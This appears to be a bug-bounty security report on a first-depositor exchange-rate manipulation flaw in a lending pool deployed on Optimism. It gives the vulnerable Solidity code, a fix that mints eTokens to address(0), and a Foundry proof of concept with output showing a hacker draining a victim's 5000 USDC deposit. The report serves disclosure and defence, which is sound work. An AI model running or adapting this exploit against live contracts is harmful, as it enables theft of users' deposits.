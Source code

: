 # Malicious first depositor of new reserve can steal late depositor' fund by manipulating exchange rate.

## Bug Description
Here's attack scenario when a new reserve gets initialized. 

1. A hacker deposits 1 wei of underlying token to become first depositor of new reserve.
2. The hacker send large underlying token to `eToken` address to manipulate exchange rate to exceptionally high.
3. Subsequent depositors will get nothing or less eToken in return because of inflated exchanged rate.
4. The hacker can redeem all reserve balance including subsequent depositor's fund.

He can repeat it any number of times whenever new depositor comes.

## Vulnerability Details
To manipulate exchange rate, you have to manipulate available liquidity which is underlying token balance of eToken address.
```
  function availableLiquidity(
        DataTypes.ReserveData storage reserve
    ) internal view returns (uint256 liquidity) {
        liquidity = IERC20(reserve.underlyingTokenAddress).balanceOf(
            reserve.eTokenAddress
        );
    }
```

Here's the logic for exchange rate and eToken amount when depositing.

https://optimistic.etherscan.io/address/0xbb505c54d71e9e599cb8435b4f0ceec05fc71cbd
```solidity
    function reserveToETokenExchangeRate(
        DataTypes.ReserveData storage reserve
    ) internal view returns (uint256) {
        (uint256 totalLiquidity, ) = totalLiquidityAndBorrows(reserve);
        uint256 totalETokens = IERC20(reserve.eTokenAddress).totalSupply();

        if (totalETokens == 0 || totalLiquidity == 0) {
            return Precision.FACTOR1E18;
        }
        return totalETokens.mul(Precision.FACTOR1E18).div(totalLiquidity);
    }
```

```
  function _deposit(
        uint256 reserveId,
        uint256 amount,
        address onBehalfOf
    ) internal returns (uint256 eTokenAmount) {
        ...

        uint256 exchangeRate = reserve.reserveToETokenExchangeRate();
        ...

        // Mint eTokens for the user
        eTokenAmount = amount.mul(exchangeRate).div(Precision.FACTOR1E18);

        IExtraInterestBearingToken(reserve.eTokenAddress).mint(
            onBehalfOf,
            eTokenAmount
        );
        ... 
    }
```

## Impact

First depositor can steal future users' deposits while the victims will get lose all of his deposit.

## Recommendation
When initializing reserve, fixed amount of eToken should be minted to address(0).

By minting fixed amount of `eToken`, it will become economically difficult to manipulate exchange rate for hacker.

```solidity
  function initReserve(
        DataTypes.ReserveData storage reserveData,
        address underlyingTokenAddress,
        address eTokenAddress,
        uint256 reserveCapacity,
        uint256 id
    ) internal {
        reserveData.underlyingTokenAddress = underlyingTokenAddress;
        reserveData.eTokenAddress = eTokenAddress;
        reserveData.reserveCapacity = reserveCapacity;
        reserveData.id = id;

        reserveData.lastUpdateTimestamp = uint128(block.timestamp);
        reserveData.borrowingIndex = Precision.FACTOR1E18;

        reserveData.reserveFeeRate = 1500; // 15.00%

+       IERC20(eTokenAddress).mint(addresss(0), 1000);

        // set initial borrowing rate
        // (0%, 0%) -> (80%, 20%) -> (90%, 50%) -> (100%, 150%)
        setBorrowingRateConfig(reserveData, 8000, 2000, 9000, 5000, 15000);
    }
```

## Proof of Concept
```
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.10;
import "forge-std/Test.sol";

interface ILendingPool {
  function initReserve(address asset) external;

  function nextReserveId() external returns (uint256);

  function owner() external returns (address);

  function deposit(
      uint256 reserveId,
      uint256 amount,
      address onBehalfOf,
      uint16 referralCode
  ) external payable returns (uint256);

    function redeem(
        uint256 reserveId,
        uint256 eTokenAmount,
        address to,
        bool receiveNativeETH
  ) external payable returns (uint256);

    function getETokenAddress(uint256 reserveId) external view returns (address);

    function exchangeRateOfReserve(uint256 reserveId) external view returns (uint256);

}
interface   IERC20 {
  function name() external view returns (string memory);
  function decimals() external view returns (uint8);
  function balanceOf(address owner) external view returns (uint256);
  function totalSupply() external view returns (uint256);

  function transfer(address to, uint256 value) external returns (bool);
  function approve(address spender, uint256 value) external returns (bool);
}

contract ContractTest is Test {
    address       hacker = 0xf8ea83bEC8CcBC3d5564E23FE71d15f1b1e7f2b0;
    address       victim = 0x1705fA8e57C4320048E3ed8F8B7523C340f2AA47;
    ILendingPool  lendingPool = ILendingPool(0xBB505c54D71E9e599cB8435b4F0cEEc05fC71cbD);
    IERC20        underlying = IERC20(0x0b2C639c533813f4Aa9D7837CAf62653d097Ff85); // usdc

  function setUp() public {
    vm.createSelectFork("optimism"); 

    vm.label(address(lendingPool), "lendingPool");
    vm.label(address(underlying), "underlying");
    vm.label(address(hacker), "hacker");
    vm.label(address(victim), "victim");
  }

  function testExtra() public {
    vm.startPrank(lendingPool.owner());
    lendingPool.initReserve(address(underlying));

    uint256 reserveId = lendingPool.nextReserveId() - 1;
    IERC20  eToken = IERC20(lendingPool.getETokenAddress(reserveId));
    uint256 prevBalance = underlying.balanceOf(hacker);


    // Step 1
    console.log("Step 1 - Becoming first depostor and manipulating exchange rate");
    vm.startPrank(hacker);
    underlying.approve(address(lendingPool), type(uint256).max);
    eToken.approve(address(lendingPool), type(uint256).max);
    lendingPool.deposit(reserveId, 1, hacker, 0);
    emit log_named_decimal_uint("Exchange rate before manipulation", lendingPool.exchangeRateOfReserve(reserveId), 18);
    underlying.transfer(address(eToken), underlying.balanceOf(hacker));
    emit log_named_decimal_uint("Exchange rate after manipulation", lendingPool.exchangeRateOfReserve(reserveId), 18);
    emit log_named_decimal_uint("eToken totalSupply", eToken.totalSupply( ), 0);
    emit log_named_decimal_uint("Hackers's eToken balance", eToken.balanceOf(hacker), 0);
    emit log_named_decimal_uint("Hacker's underlying balance", underlying.balanceOf(hacker), 6);

    // Step 2
    console.log("");
    console.log("Step 2 - Stealing victim's deposit");
    vm.startPrank(victim);
    underlying.approve(address(lendingPool), type(uint256).max);
    eToken.approve(address(lendingPool), type(uint256).max);
    lendingPool.deposit(reserveId, 5000_000_000, victim, 0);
    emit log_named_decimal_uint("Victim's eToken balance", eToken.balanceOf(victim), 0);

    // Step 3
    console.log("");
    console.log("Step 3 - Withdrawing profit");
    vm.startPrank(hacker);
    lendingPool.redeem(reserveId, eToken.balanceOf(hacker), hacker, false);
    emit log_named_decimal_uint("Hacker's profit", underlying.balanceOf(hacker) - prevBalance, 6);
  }
}
```

###Output
```
Running 1 test for test/ExtraFinance_test.sol:ContractTest
[PASS] testExtra() (gas: 3289973)
Logs:
  Step 1 - Becoming first depostor and manipulating exchange rate
  Exchange rate before manipulation: 1.000000000000000000
  Exchange rate after manipulation: 10000000000.000000000000000000
  eToken totalSupply: 1.0
  Hackers's eToken balance: 1.0
  Hacker's underlying balance: 0.000000

  Step 2 - Stealing victim's deposit
  Victim's eToken balance: 0.0

  Step 3 - Withdrawing profit
  Hacker's profit: 5000.000000
```